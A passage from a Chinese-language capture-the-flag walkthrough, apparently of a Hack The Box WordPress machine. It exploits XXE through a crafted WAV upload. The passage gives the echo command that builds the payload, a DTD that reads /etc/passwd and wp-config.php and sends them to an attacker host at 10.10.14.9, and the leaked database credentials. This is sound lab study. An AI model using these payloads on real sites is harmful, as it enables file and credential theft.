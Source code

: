然后修改此文件的ip地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/daa48c7f458242fcb61ce38f1831d34e.png)

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.9:8001/dedsec.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```
然后创建一个dedsec.dtd文件，里面是我们的恶意代码
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.9:8001/?p=%file;'>" >
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ceb75433d0054bc39fbdfc9df8fc5d7c.png)



然后上传我们刚刚创建的payload.wav文件
```
http://metapress.htb/wp-admin/upload.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7113a6963ad04d8d8e5214953ad2511d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d4e079337d404a698f3f1b4ba5b76391.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/33ab633fcfb2468c8e6170e7b30c6a87.png)

得到了一串base64编码，我们解密看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/cd8d77ffc599442fad084e8d4f07d02a.png)

得到了靶机的/etc/passwd文件内容，现在我们获取一下网站配置，看看有没有有用的东西
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.9:8001/?p=%file;'>" >
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c13f6f68d49b4a02992ea3a920666e1f.png)

继续上传payload文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/31577e7b48c4429d9a4566cb63c8ac6f.png)

继续解密，将此base64编码解密后的内容：
```
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```